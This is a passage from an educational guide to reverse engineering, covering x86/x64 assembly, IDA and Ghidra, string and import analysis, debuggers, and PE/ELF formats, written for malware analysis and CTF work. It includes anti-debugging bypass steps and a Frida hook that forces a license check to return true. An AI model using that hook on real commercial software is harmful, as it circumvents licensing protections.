

# Reverse Engineering

> **Purpose:** Comprehensive guide to reverse engineering binaries, understanding assembly code, bypassing protections, and developing exploits for security research, malware analysis, and CTF competitions.

---

## Table of Contents

1. [Overview](#overview)
2. [Reverse Engineering Fundamentals](#reverse-engineering-fundamentals)
3. [Static Analysis](#static-analysis)
4. [Dynamic Analysis](#dynamic-analysis)
5. [Platform-Specific Reversing](#platform-specific-reversing)
6. [Anti-Reversing Techniques](#anti-reversing-techniques)
7. [Exploit Development](#exploit-development)
8. [Practical Workflows](#practical-workflows)
9. [Tools Reference](#tools-reference)

---

## Overview

### What is Reverse Engineering?

**Reverse engineering** is the process of analyzing a compiled binary (executable, library, firmware) to understand its functionality, identify vulnerabilities, or modify its behavior without access to source code.

**Common use cases:**
- **Malware analysis:** Understanding malicious binaries
- **Vulnerability research:** Finding security flaws in proprietary software
- **Exploit development:** Creating proof-of-concept exploits for vulnerabilities
- **CTF competitions:** Solving binary exploitation and reverse engineering challenges
- **Software auditing:** Verifying security of closed-source applications
- **License verification:** Analyzing software protection mechanisms (ethical use only)
- **Interoperability:** Understanding proprietary protocols or file formats

### Legal & Ethical Considerations

**Legal risks:**
- **DMCA Section 1201 (US):** Prohibits circumventing technological protection measures (DRM, software activation)
- **Computer Fraud and Abuse Act (CFAA):** Unauthorized access to computer systems
- **Software license agreements:** May prohibit reverse engineering (enforceability varies)
- **Copyright law:** Reverse engineering for interoperability generally permitted (fair use)

**Ethical guidelines:**
- ✅ Reverse engineering for security research (responsible disclosure)
- ✅ Analyzing malware in isolated environments
- ✅ CTF competitions and educational challenges
- ✅ Interoperability and compatibility research
- ❌ Circumventing software licensing for piracy
- ❌ Developing exploits for malicious purposes
- ❌ Violating terms of service without authorization

**Best practices:**
- Obtain authorization before reversing proprietary software
- Use isolated lab environments (VMs, air-gapped systems)
- Follow responsible disclosure for vulnerabilities
- Respect intellectual property rights
- Document legal basis for reverse engineering activities

### Reverse Engineering Methodology

**Standard workflow:**



**Step-by-step:**
1. **Triage:** Identify file type, architecture, protections
2. **Static analysis:** Disassemble, decompile, analyze strings/imports
3. **Dynamic analysis:** Debug, trace execution, monitor behavior
4. **Iterative refinement:** Alternate between static/dynamic until goal achieved
5. **Documentation:** Document findings, create exploits or reports

---

## Reverse Engineering Fundamentals

### Assembly Language Basics

**Why assembly matters:**
- Compiled binaries are machine code (assembly is human-readable representation)
- Understanding assembly is essential for reversing (no source code available)
- Different architectures have different instruction sets (x86, ARM, MIPS)

**Common architectures:**

| Architecture | Bit Width | Common Use | Examples |
|--------------|-----------|------------|----------|
| **x86** | 32-bit | Legacy Windows, Linux | EXE, ELF (32-bit) |
| **x64 (x86-64)** | 64-bit | Modern Windows, Linux, macOS | EXE, ELF, Mach-O (64-bit) |
| **ARM** | 32/64-bit | Mobile devices, IoT, Apple Silicon | Android, iOS, embedded systems |
| **MIPS** | 32/64-bit | Routers, embedded systems | Firmware |

### x86/x64 Assembly Fundamentals

**Registers (x86 32-bit):**

```nasm
; General-purpose registers:
EAX - Accumulator (arithmetic, return values)
EBX - Base (pointer to data)
ECX - Counter (loop counters)
EDX - Data (I/O, arithmetic)

; Pointer registers:
ESP - Stack Pointer (top of stack)
EBP - Base Pointer (stack frame base)
ESI - Source Index (string/memory operations)
EDI - Destination Index (string/memory operations)

; Instruction pointer:
EIP - Instruction Pointer (next instruction address)

; Flags register:
EFLAGS - Flags (Zero Flag, Carry Flag, Sign Flag, etc.)
```

**Registers (x64 64-bit):**

```nasm
; x64 extends 32-bit registers to 64-bit:
RAX, RBX, RCX, RDX, RSI, RDI, RSP, RBP, RIP

; Additional registers (r8-r15):
R8, R9, R10, R11, R12, R13, R14, R15

; Lower 32-bit access:
EAX (lower 32 bits of RAX)
R8D (lower 32 bits of R8)

; Lower 16-bit access:
AX (lower 16 bits of RAX)
R8W (lower 16 bits of R8)

; Lower 8-bit access:
AL (lower 8 bits of RAX)
R8B (lower 8 bits of R8)
```

**Common instructions:**

```nasm
; Data movement:
mov eax, 0x42          ; Move value 0x42 into EAX
lea eax, [ebp-0x10]    ; Load effective address (pointer arithmetic)
push eax               ; Push EAX onto stack, decrement ESP
pop eax                ; Pop top of stack into EAX, increment ESP

; Arithmetic:
add eax, ebx           ; EAX = EAX + EBX
sub eax, 0x10          ; EAX = EAX - 0x10
inc eax                ; EAX = EAX + 1
dec eax                ; EAX = EAX - 1
mul ebx                ; EAX = EAX * EBX (unsigned)
imul ebx               ; EAX = EAX * EBX (signed)
div ebx                ; EAX = EAX / EBX, EDX = remainder

; Logical operations:
and eax, 0xFF          ; Bitwise AND (mask lower 8 bits)
or eax, ebx            ; Bitwise OR
xor eax, eax           ; XOR (common idiom to zero register: EAX = 0)
not eax                ; Bitwise NOT (invert all bits)
shl eax, 2             ; Shift left (multiply by 4)
shr eax, 2             ; Shift right (divide by 4)

; Control flow:
cmp eax, ebx           ; Compare EAX and EBX (sets flags)
test eax, eax          ; Bitwise AND, set flags (check if zero)
jmp 0x401000           ; Unconditional jump
je 0x401000            ; Jump if equal (ZF=1)
jne 0x401000           ; Jump if not equal (ZF=0)
jg 0x401000            ; Jump if greater (signed)
jl 0x401000            ; Jump if less (signed)
ja 0x401000            ; Jump if above (unsigned)
jb 0x401000            ; Jump if below (unsigned)
call 0x401000          ; Call function (push return address, jump)
ret                    ; Return from function (pop return address, jump)

; String operations:
rep movsb              ; Repeat: move byte from ESI to EDI, decrement ECX
rep stosb              ; Repeat: store AL at EDI, decrement ECX
```

### Calling Conventions

**Calling conventions** define how functions receive arguments and return values.

**Windows x86 (32-bit):**

**stdcall (WinAPI standard):**
```nasm
; Arguments pushed right-to-left onto stack
; Callee cleans up stack (ret 0xN)

; Example: MessageBoxA(NULL, "Hello", "Title", MB_OK)
push 0                 ; MB_OK (arg 4)
push offset aTitle     ; "Title" (arg 3)
push offset aHello     ; "Hello" (arg 2)
push 0                 ; NULL (arg 1)
call MessageBoxA
; Callee (MessageBoxA) cleans stack with "ret 0x10"
```

**cdecl (C standard):**
```nasm
; Arguments pushed right-to-left onto stack
; Caller cleans up stack (add esp, 0xN)

; Example: printf("Value: %d", 42)
push 42                ; arg 2
push offset aFormat    ; "Value: %d" (arg 1)
call printf
add esp, 0x8           ; Caller cleans stack (2 args * 4 bytes)
```

**fastcall:**
```nasm
; First 2 arguments in ECX, EDX
; Remaining arguments on stack

; Example: fastcall_func(1, 2, 3, 4)
push 4                 ; arg 4 (stack)
push 3                 ; arg 3 (stack)
mov edx, 2             ; arg 2 (register)
mov ecx, 1             ; arg 1 (register)
call fastcall_func
```

**Windows x64:**

**Microsoft x64 calling convention:**
```nasm
; First 4 arguments in registers: RCX, RDX, R8, R9
; Remaining arguments on stack
; Caller allocates 32-byte "shadow space" on stack
; Caller cleans stack

; Example: func(1, 2, 3, 4, 5, 6)
sub rsp, 0x28          ; Allocate shadow space (32 bytes) + align
mov qword [rsp+0x28], 6  ; arg 6 (stack)
mov qword [rsp+0x20], 5  ; arg 5 (stack)
mov r9, 4              ; arg 4 (register)
mov r8, 3              ; arg 3 (register)
mov rdx, 2             ; arg 2 (register)
mov rcx, 1             ; arg 1 (register)
call func
add rsp, 0x28          ; Clean up
```

**Linux x64 (System V AMD64 ABI):**
```nasm
; First 6 arguments in registers: RDI, RSI, RDX, RCX, R8, R9
; Remaining arguments on stack
; Return value in RAX

; Example: func(1, 2, 3, 4, 5, 6, 7)
push 7                 ; arg 7 (stack)
mov r9, 6              ; arg 6 (register)
mov r8, 5              ; arg 5 (register)
mov rcx, 4             ; arg 4 (register)
mov rdx, 3             ; arg 3 (register)
mov rsi, 2             ; arg 2 (register)
mov rdi, 1             ; arg 1 (register)
call func
add rsp, 0x8           ; Clean up
```

### Stack Frames

**Function prologue (setup stack frame):**
```nasm
push ebp               ; Save old base pointer
mov ebp, esp           ; Set new base pointer (current stack top)
sub esp, 0x20          ; Allocate 32 bytes for local variables
```

**Stack layout:**
```
High memory
-----------------
[Return address]   <-- Pushed by CALL instruction
[Saved EBP]        <-- EBP points here
[Local var 1]      <-- EBP-0x4
[Local var 2]      <-- EBP-0x8
[Local var 3]      <-- EBP-0xC
...                <-- ESP points here (top of stack)
Low memory
```

**Function epilogue (cleanup stack frame):**
```nasm
mov esp, ebp           ; Restore stack pointer
pop ebp                ; Restore old base pointer
ret                    ; Return to caller (pop return address, jump)
```

**Accessing arguments and local variables:**
```nasm
; Arguments (above EBP):
mov eax, [ebp+0x8]     ; First argument (after return address)
mov ebx, [ebp+0xC]     ; Second argument

; Local variables (below EBP):
mov [ebp-0x4], eax     ; Store EAX in local var 1
mov ecx, [ebp-0x8]     ; Load local var 2 into ECX
```

---

## Static Analysis

### Disassemblers & Decompilers

**Static analysis** examines the binary without executing it.

**Popular tools:**

| Tool | Type | Platform | Strengths | Cost |
|------|------|----------|-----------|------|
| **IDA Pro** | Disassembler/Decompiler | Windows, Linux, macOS | Industry standard, Hex-Rays decompiler, scripting (IDAPython) | Commercial ($$$) |
| **Ghidra** | Disassembler/Decompiler | Windows, Linux, macOS | Free, NSA-developed, excellent decompiler, Java/Python scripting | Free |
| **Binary Ninja** | Disassembler/Decompiler | Windows, Linux, macOS | Modern UI, BNIL (intermediate language), Python API | Commercial ($$) |
| **Radare2** | Disassembler | Windows, Linux, macOS | CLI-based, scriptable, FLIRT signatures | Free |
| **Hopper** | Disassembler/Decompiler | macOS, Linux | macOS/iOS focus, ARM support | Commercial ($) |
| **Cutter** | Disassembler | Windows, Linux, macOS | GUI for Radare2 | Free |

### IDA Pro Basics

**Loading a binary:**
```bash
# Launch IDA Pro (Windows):
ida64.exe malware.exe

# Linux:
./ida64 malware.elf
```

**Key IDA features:**

**1. Disassembly view:**
```nasm
.text:00401000 55                    push    ebp
.text:00401001 8B EC                 mov     ebp, esp
.text:00401003 83 EC 20              sub     esp, 20h
.text:00401006 C7 45 FC 00 00 00 00  mov     dword ptr [ebp-4], 0
.text:0040100D EB 09                 jmp     short loc_401018
```

**2. Hex-Rays decompiler (F5):**
```c
int __cdecl main(int argc, const char **argv) {
    int counter = 0;
    while (counter < 10) {
        printf("Counter: %d\n", counter);
        counter++;
    }
    return 0;
}
```

**3. Strings window (Shift+F12):**
```
Address   String
00402000  "Password: "
00402010  "Access granted!"
00402020  "Access denied!"
00402030  "https://malicious-c2.com/api"
```

**4. Imports/Exports (View → Open subviews → Imports):**
```
Address   Library      Function
00401000  kernel32.dll CreateFileA
00401008  kernel32.dll WriteFile
00401010  ws2_32.dll   WSAStartup
00401018  ws2_32.dll   connect
```

**5. Cross-references (Xrefs):**
```
; Right-click on function/data → "Jump to xref to operand"
; Shows all locations that call this function or reference this data

.text:00401000 CreateFileA:
    .text:00401050  call CreateFileA  ; First xref
    .text:00401100  call CreateFileA  ; Second xref
```

**IDA Pro shortcuts:**

| Key | Action |
|-----|--------|
| **Space** | Toggle graph view / text view |
| **F5** | Decompile function (Hex-Rays) |
| **N** | Rename symbol |
| **X** | Show cross-references (xrefs) |
| **G** | Jump to address |
| **Esc** | Go back |
| **;** | Add comment |
| **:** | Add repeatable comment |
| **Y** | Change function prototype |
| **D** | Convert to data |
| **C** | Convert to code |
| **U** | Undefine |

**IDAPython scripting:**
```python
# IDAPython: Rename all functions starting with "sub_"
import idc
import idaapi

for func_ea in Functions():
    func_name = idc.get_func_name(func_ea)
    if func_name.startswith("sub_"):
        # Rename based on strings or behavior
        new_name = "analyze_me_" + func_name
        idc.set_name(func_ea, new_name, idc.SN_CHECK)
        print(f"Renamed {func_name} to {new_name}")
```

### Ghidra Basics

**Launching Ghidra:**
```bash
# Linux/macOS:
./ghidraRun

# Windows:
ghidraRun.bat
```

**Creating a project and importing binary:**
1. **File → New Project** → Non-Shared Project
2. **File → Import File** → Select binary
3. Analyze with default options (click "Yes" when prompted)

**Ghidra interface:**

**1. CodeBrowser (main window):**
- **Listing:** Disassembly view (assembly code)
- **Decompiler:** Decompiled C-like code (click on function)
- **Function Graph:** Control flow graph

**2. Decompiler view:**
```c
void main(void) {
  int counter = 0;
  while (counter < 10) {
    printf("Counter: %d\n", counter);
    counter = counter + 1;
  }
  return;
}
```

**3. Symbol Tree:**
- Functions, imports, exports, strings
- Right-click → "References to" (find xrefs)

**Ghidra shortcuts:**

| Key | Action |
|-----|--------|
| **L** | Rename variable/function |
| **;** | Add comment (EOL comment) |
| **Ctrl+Shift+G** | Goto address |
| **Ctrl+Shift+E** | Edit function signature |
| **G** | Goto (jump to reference) |
| **Ctrl+/** | Add/remove bookmark |

**Ghidra scripting (Python):**
```python
# Ghidra Python: Find all calls to "strcpy" (dangerous function)
from ghidra.program.model.symbol import RefType

strcpy_func = getFunction("strcpy")
if strcpy_func:
    refs = getReferencesTo(strcpy_func.getEntryPoint())
    for ref in refs:
        if ref.getReferenceType() == RefType.UNCONDITIONAL_CALL:
            caller = getFunctionContaining(ref.getFromAddress())
            print(f"strcpy called from: {caller.getName()} at {ref.getFromAddress()}")
```

### String Analysis

**Why strings matter:**
- Reveal functionality (API endpoints, file paths, error messages)
- Provide clues for password/license checks
- Indicate malware C2 servers or exfiltration targets

**Extracting strings:**

```bash
# Linux: strings command
strings malware.bin | grep -i "password"
strings -e l malware.bin  # Unicode (little-endian) strings

# Windows: Sysinternals strings.exe
strings64.exe malware.exe | findstr /i "http"

# IDA Pro: Shift+F12 (Strings window)
# Ghidra: Window → Defined Strings
```

**Obfuscated strings:**

Malware often hides strings via encoding/encryption:

```c
// Example: XOR-encoded string
char encoded[] = {0x1F, 0x0E, 0x0C, 0x0C, 0x18, 0x05, 0x3B, 0x00};
char decoded[9];

for (int i = 0; i < 8; i++) {
    decoded[i] = encoded[i] ^ 0x42;  // XOR with key 0x42
}
decoded[8] = '\0';
// Result: "MALWARE"
```

**Decoding in IDA/Ghidra:**
- Identify decoding loop in disassembly
- Extract encoded data and XOR key
- Write script to decode:

```python
# IDAPython: Decode XOR-encoded string
encoded = [0x1F, 0x0E, 0x0C, 0x0C, 0x18, 0x05, 0x3B]
key = 0x42
decoded = ''.join(chr(b ^ key) for b in encoded)
print(f"Decoded: {decoded}")
```

### Import/Export Analysis

**Imports** reveal which external functions the binary uses (Windows API, libc, etc.).

**Windows PE imports:**
```
kernel32.dll:
  - CreateFileA       (file operations)
  - WriteFile         (write to file)
  - CreateProcessA    (spawn process)

ws2_32.dll:
  - WSAStartup        (network initialization)
  - socket            (create socket)
  - connect           (connect to remote host)

user32.dll:
  - MessageBoxA       (display message)
```

**Suspicious import patterns:**

| Imports | Likely Functionality |
|---------|----------------------|
| `CreateFileA`, `WriteFile`, `ReadFile` | File operations (ransomware, data theft) |
| `WSAStartup`, `socket`, `connect` | Network communication (C2, data exfiltration) |
| `CreateProcessA`, `ShellExecuteA` | Process execution (dropper, backdoor) |
| `VirtualAlloc`, `WriteProcessMemory` | Code injection (process hollowing) |
| `RegOpenKeyExA`, `RegSetValueExA` | Registry modification (persistence) |
| `CryptEncrypt`, `CryptDecrypt` | Encryption (ransomware, data protection) |

**Analyzing imports in IDA:**
1. **View → Open subviews → Imports**
2. Double-click on import to see where it's called (xrefs)

**Analyzing imports in Ghidra:**
1. **Symbol Tree → Imports**
2. Right-click → **References to** (show xrefs)

---

## Dynamic Analysis

### Debuggers

**Dynamic analysis** examines the binary during execution.

**Popular debuggers:**

| Debugger | Platform | Best For |
|----------|----------|----------|
| **x64dbg** | Windows | User-mode debugging, malware analysis, CTF |
| **WinDbg** | Windows | Kernel debugging, crash dumps, advanced Windows internals |
| **GDB** | Linux, macOS | Linux/macOS binaries, exploit development, scriptable with Python |
| **LLDB** | macOS, Linux | macOS/iOS debugging, modern alternative to GDB |
| **OllyDbg** | Windows | Legacy 32-bit Windows debugging (x64dbg is successor) |
| **IDA Pro Debugger** | Windows, Linux, macOS | Integrated with IDA disassembly |

### x64dbg Basics

**Launching x64dbg:**
```bash
# Windows: Launch x32dbg.exe (32-bit) or x64dbg.exe (64-bit)
x64dbg.exe malware.exe

# Or: File → Open → Select binary
```

**x64dbg interface:**

**1. CPU view (disassembly):**
```nasm
00401000 | 55                 | push ebp
00401001 | 8B EC              | mov ebp, esp
00401003 | 83 EC 20           | sub esp, 0x20
00401006 | C7 45 FC 00 00 00 00 | mov dword ptr [ebp-4], 0
```

**2. Registers:**
```
RAX = 0000000000000000
RBX = 0000000000000000
RCX = 0000000000401000
RDX = 0000000000000000
RSP = 000000000012FF00
RBP = 000000000012FF20
RIP = 0000000000401000  <-- Current instruction
```

**3. Stack:**
```
Address       Value             Comment
0012FF00      00000000
0012FF04      00401050          Return address
0012FF08      00000001          Argument 1
0012FF0C      00402000          Argument 2
```

**4. Memory dump:**
```
Address   Hex                               ASCII
00402000  48 65 6C 6C 6F 20 57 6F 72 6C 64  Hello World
```

**Setting breakpoints:**

**1. Software breakpoint (F2):**
- Click on instruction → Press **F2** (or right-click → Breakpoint → Toggle)
- Breaks when instruction is executed
- **Use case:** Break on function entry, suspicious API calls

**2. Hardware breakpoint:**
- **Debug → Hardware breakpoints**
- Up to 4 hardware breakpoints (CPU limitation)
- Can break on **execution**, **read**, or **write** of memory address
- **Use case:** Break when memory is modified (anti-debugging detection)

**3. Memory breakpoint:**
- Right-click in memory dump → **Breakpoint → Memory Access** (read/write/execute)
- **Use case:** Track when buffer is written, monitor heap allocations

**4. Conditional breakpoint:**
- Right-click on breakpoint → **Edit**
- Set condition (e.g., `RAX == 0x42`)
- **Use case:** Break only when specific value is encountered

**x64dbg commands (command line at bottom):**

```bash
# Execution control:
run                    # Start execution
StepInto               # F7 - Step into function call
StepOver               # F8 - Step over function call
StepOut                # Ctrl+F9 - Run until return
RunToUser              # Alt+F9 - Run until user code (skip system DLLs)

# Breakpoints:
bp 401000              # Set breakpoint at address 0x401000
bp CreateFileA         # Set breakpoint on function
bc 401000              # Clear breakpoint
bl                     # List breakpoints

# Memory:
dump 402000            # Show memory dump at address
d eax                  # Dump memory at address in EAX
db 402000              # Dump bytes
dd 402000              # Dump dwords
da 402000              # Dump ASCII string

# Registers:
r eax = 42             # Set EAX to 0x42
r rip = 401000         # Set instruction pointer (change execution flow)

# Search:
find 402000, "password"   # Search for string in memory
findall "http://"         # Find all occurrences

# Comments:
cmt 401000, "Main function starts here"
```

**Tracing execution:**

```bash
# Trace into (log every instruction):
TraceIntoConditional rax == 0

# Trace over (log every function call):
TraceOverConditional

# Run trace (high-speed logging):
# Debug → Run Trace → Start
# Generates trace log for later analysis
```

### GDB Basics

**Launching GDB:**
```bash
# Linux: Debug ELF binary
gdb ./program

# Attach to running process:
gdb -p <PID>

# With arguments:
gdb --args ./program arg1 arg2
```

**GDB commands:**

```bash
# Execution control:
run                    # Start execution (or "r")
continue               # Continue execution (or "c")
step                   # Step into (single instruction, or "s")
next                   # Step over (or "n")
stepi                  # Step single assembly instruction (or "si")
nexti                  # Step over single assembly instruction (or "ni")
finish                 # Run until function returns

# Breakpoints:
break main             # Break at function "main" (or "b main")
break *0x401000        # Break at address 0x401000
break file.c:42        # Break at source line (if symbols available)
info breakpoints       # List breakpoints (or "info b")
delete 1               # Delete breakpoint 1
disable 1              # Disable breakpoint 1
enable 1               # Enable breakpoint 1

# Watchpoints (break on memory access):
watch *0x601000        # Break when memory at 0x601000 is written
rwatch *0x601000       # Break when memory is read
awatch *0x601000       # Break when memory is read or written

# Examining memory:
x/10i $rip             # Examine 10 instructions at RIP (disassembly)
x/10x $rsp             # Examine 10 hex values at RSP (stack)
x/s 0x401000           # Examine string at address
x/10gx $rsp            # Examine 10 giant (8-byte) hex values

# Registers:
info registers         # Show all registers (or "info r")
print $rax             # Print RAX value (or "p $rax")
set $rax = 0x42        # Set RAX to 0x42

# Disassembly:
disassemble main       # Disassemble function "main" (or "disas main")
disassemble 0x401000   # Disassemble at address

# Backtrace (call stack):
backtrace              # Show call stack (or "bt")
frame 2                # Switch to frame 2 in call stack
info frame             # Show current frame info

# Search memory:
find 0x400000, +0x10000, "password"  # Search for string

# GDB-specific:
set disassembly-flavor intel  # Use Intel syntax (default is AT&T)
layout asm             # Show TUI (Text UI) with disassembly
layout regs            # Show TUI with registers
```

**GDB with PEDA/GEF/pwndbg (enhanced plugins):**

```bash
# Install PEDA (Python Exploit Development Assistance):
git clone https://github.com/longld/peda.git ~/peda
echo "source ~/peda/peda.py" >> ~/.gdbinit

# Install GEF (GDB Enhanced Features):
wget -O ~/.gdbinit-gef.py https://github.com/hugsy/gef/raw/master/gef.py
echo "source ~/.gdbinit-gef.py" >> ~/.gdbinit

# Install pwndbg:
git clone https://github.com/pwndbg/pwndbg
cd pwndbg
./setup.sh

# PEDA/GEF/pwndbg add commands:
checksec               # Check binary protections (NX, PIE, RELRO, Canary)
vmmap                  # Show memory mappings
telescope $rsp 20      # Show stack with dereferenced pointers
pattern create 200     # Create cyclic pattern for finding offsets
pattern offset 0x41614141  # Find offset of pattern in EIP/RIP
rop                    # Search for ROP gadgets
```

### Bypassing Anti-Debugging

**Anti-debugging techniques:**

**1. IsDebuggerPresent (Windows):**
```nasm
; Check if debugger is attached
call IsDebuggerPresent
test eax, eax
jnz debugger_detected   ; Jump if EAX != 0 (debugger present)
```

**Bypass:**
```bash
# x64dbg: Set breakpoint on IsDebuggerPresent, modify return value
bp IsDebuggerPresent
# When hit: Set RAX = 0 (no debugger)
r rax = 0
```

**2. PEB BeingDebugged flag:**
```nasm
; Check PEB->BeingDebugged (offset 0x2 in PEB)
mov eax, fs:[0x30]      ; PEB address (x86)
movzx eax, byte ptr [eax+0x2]  ; BeingDebugged flag
test eax, eax
jnz debugger_detected
```

**Bypass:**
```bash
# x64dbg: Find PEB address, set BeingDebugged to 0
# View → Memory Map → Find PEB
# Set byte at PEB+0x2 to 0x00
```

**3. Timing checks:**
```c
// Measure time between two points (debugger slows execution)
DWORD start = GetTickCount();
// ... some code ...
DWORD end = GetTickCount();
if (end - start > 1000) {
    // Debugger detected (took too long)
}
```

**Bypass:**
```bash
# x64dbg: Modify timing values or patch comparison
# Set breakpoint before comparison, modify end value:
r eax = <start_value>  # Make time difference = 0
```

**4. RDTSC (Read Time-Stamp Counter):**
```nasm
rdtsc                   ; Read CPU timestamp into EDX:EAX
mov ebx, eax            ; Save timestamp
; ... some code ...
rdtsc                   ; Read timestamp again
sub eax, ebx            ; Calculate difference
cmp eax, 0x1000         ; Check if too slow
ja debugger_detected
```

**Bypass:**
```bash
# Patch RDTSC or comparison
# x64dbg: Assemble → Replace "cmp eax, 0x1000" with "cmp eax, 0xFFFFFFFF"
```

**5. Exception-based anti-debugging:**
```c
// Debugger handles exceptions differently
__try {
    int x = *(int*)0x00000000;  // Trigger exception
} __except(EXCEPTION_EXECUTE_HANDLER) {
    // No debugger (exception handled normally)
}
```

**Bypass:**
```bash
# x64dbg: Set exception handling options
# Options → Preferences → Exceptions → Pass all exceptions to debugged program
```

### Dynamic Instrumentation (Frida)

**Frida** allows runtime modification without a debugger.

**Installing Frida:**
```bash
# Python:
pip install frida frida-tools

# Verify:
frida --version
```

**Hooking functions:**

```javascript
// Frida JavaScript: Hook MessageBoxA on Windows
// Save as hook.js

Interceptor.attach(Module.findExportByName("user32.dll", "MessageBoxA"), {
    onEnter: function(args) {
        console.log("[MessageBoxA] Called!");
        console.log("  hWnd: " + args[0]);
        console.log("  Text: " + Memory.readUtf8String(args[1]));
        console.log("  Title: " + Memory.readUtf8String(args[2]));
        console.log("  Type: " + args[3]);

        // Modify arguments:
        args[1] = Memory.allocUtf8String("Hooked by Frida!");
    },
    onLeave: function(retval) {
        console.log("[MessageBoxA] Return value: " + retval);
    }
});
```

**Running Frida script:**
```bash
# Attach to process by name:
frida -l hook.js -n malware.exe

# Attach to process by PID:
frida -l hook.js -p 1234

# Spawn new process:
frida -l hook.js -f malware.exe
```

**Frida examples:**

**1. Bypass license check:**
```javascript
// Hook check_license() function, force return TRUE
var base = Module.findBaseAddress("malware.exe");
var check_license = base.add(0x1234);  // Offset of function

Interceptor.attach(check_license, {
    onLeave: function(retval) {
        console.log("Original return value: " + retval);
        retval.replace(1);  // Force return TRUE
        console.log("Modified to: 1 (license valid)");
    }
});
```

**2. Dump decrypted strings:**
```javascript
// Hook decryption function, log decrypted output
Interceptor.attach(Module.findExportByName(null, "decrypt_string"), {
    onLeave: function(retval) {
        var decrypted = Memory.readUtf8String(retval);
        console.log("Decrypted string: " + decrypted);
    }
});
```

**3. Trace all function calls:**
```javascript
// Trace all calls to functions in malware.exe
var moduleName = "malware.exe";
var module = Process.getModuleByName(moduleName);

Module.enumerateExports(moduleName, {
    onMatch: function(exp) {
        if (exp.type === 'function') {
            Interceptor.attach(exp.address, {
                onEnter: function(args) {
                    console.log("[Call] " + exp.name + " @ " + exp.address);
                }
            });
        }
    },
    onComplete: function() {}
});
```

---

## Platform-Specific Reversing

### Windows PE Format

**PE (Portable Executable)** is the binary format for Windows executables (.exe, .dll, .sys).

**PE structure:**

```
DOS Header (MZ header)
  |
DOS Stub ("This program cannot be run in DOS mode")
  |
PE Signature ("PE\0\0")
  |
COFF Header (machine type, number of sections, timestamp)
  |
Optional Header (entry point, image base, section alignment)
  |
Section Headers (.text, .data, .rdata, .rsrc)
  |
Sections (actual code and data)
```

**Key PE components:**

**1. DOS Header (offset 0x0):**
```c
typedef struct _IMAGE_DOS_HEADER {
    WORD e_magic;      // "MZ" (0x5A4D)
    // ...
    LONG e_lfanew;     // Offset to PE header
} IMAGE_DOS_HEADER;
```

**2. PE Header:**
```c
typedef struct _IMAGE_NT_HEADERS {
    DWORD Signature;   // "PE\0\0" (0x4550)
    IMAGE_FILE_HEADER FileHeader;
    IMAGE_OPTIONAL_HEADER OptionalHeader;
} IMAGE_NT_HEADERS;
```

**3. Optional Header (contains entry point):**
```c
typedef struct _IMAGE_OPTIONAL_HEADER {
    // ...
    DWORD AddressOfEntryPoint;  // RVA of entry point
    DWORD ImageBase;            // Preferred load address (e.g., 0x400000)
    // ...
} IMAGE_OPTIONAL_HEADER;
```

**4. Sections:**

| Section | Purpose |
|---------|---------|
| `.text` | Executable code |
| `.data` | Initialized data (global variables) |
| `.rdata` | Read-only data (strings, constants) |
| `.bss` | Uninitialized data |
| `.rsrc` | Resources (icons, dialogs, version info) |
| `.reloc` | Relocation table (for ASLR) |

**5. Import Address Table (IAT):**
- List of imported functions from DLLs
- Resolved at runtime by Windows loader

**6. Export Address Table (EAT):**
- List of exported functions (for DLLs)

**Analyzing PE with tools:**

```bash
# PEview (Windows GUI):
# https://wjradburn.com/software/
# Shows PE structure, sections, imports, exports

# PE-bear (Windows GUI):
# https://github.com/hasherezade/pe-bear-releases
# Advanced PE editor and analyzer

# pefile (Python):
pip install pefile

python3
>>> import pefile
>>> pe = pefile.PE("malware.exe")
>>> print(hex(pe.OPTIONAL_HEADER.AddressOfEntryPoint))
>>> for section in pe.sections:
...     print(section.Name.decode(), hex(section.VirtualAddress))
```

**Finding entry point:**
```python
import pefile

pe = pefile.PE("malware.exe")
entry_point_rva = pe.OPTIONAL_HEADER.AddressOfEntryPoint
image_base = pe.OPTIONAL_HEADER.ImageBase
entry_point_va = image_base + entry_point_rva
print(f"Entry point: 0x{entry_point_va:X}")
```

### Linux ELF Format

**ELF (Executable and Linkable Format)** is the binary format for Linux/Unix executables.

**ELF structure:**

```
ELF Header
  |
Program Headers (segments for runtime)
  |
Section Headers (.text, .data, .bss, .rodata, etc.)
  |
Sections (actual code and data)
  |
Symbol Table (functions, variables)
  |
String Table (symbol names)
```

**Key ELF components:**

**1. ELF Header:**
```c
typedef struct {
    unsigned char e_ident[16];  // Magic: 0x7F, 'E', 'L', 'F'
    uint16_t e_type;            // Type: ET_EXEC (executable), ET_DYN (shared object)
    uint16_t e_machine;         // Architecture: EM_386 (x86), EM_X86_64 (x64), EM_ARM
    // ...
    uint64_t e_entry;           // Entry point address
} Elf64_Ehdr;
```

**2. Program Headers (segments):**
- `LOAD`: Loadable segment (mapped into memory)
- `DYNAMIC`: Dynamic linking information
- `INTERP`: Path to interpreter (e.g., /lib64/ld-linux-x86-64.so.2)

**3. Sections:**

| Section | Purpose |
|---------|---------|
| `.text` | Executable code |
| `.data` | Initialized data |
| `.bss` | Uninitialized data |
| `.rodata` | Read-only data (strings) |
| `.plt` | Procedure Linkage Table (for dynamic linking) |
| `.got` | Global Offset Table (addresses of imported functions) |
| `.symtab` | Symbol table |
| `.strtab` | String table |

**4. GOT (Global Offset Table) and PLT (Procedure Linkage Table):**
- **GOT:** Contains addresses of external functions (resolved at runtime)
- **PLT:** Stub code that jumps to GOT entries

**Example (calling printf):**
```nasm
; First call to printf:
call printf@plt         ; Jump to PLT stub

; PLT stub:
printf@plt:
jmp [printf@got]        ; Jump to address in GOT (initially resolver)
push 0                  ; Push relocation index
jmp _dl_runtime_resolve ; Resolve printf address, update GOT

; Subsequent calls:
call printf@plt         ; Jump to PLT stub
printf@plt:
jmp [printf@got]        ; GOT now contains real printf address
```

**Analyzing ELF with tools:**

```bash
# readelf (view ELF headers):
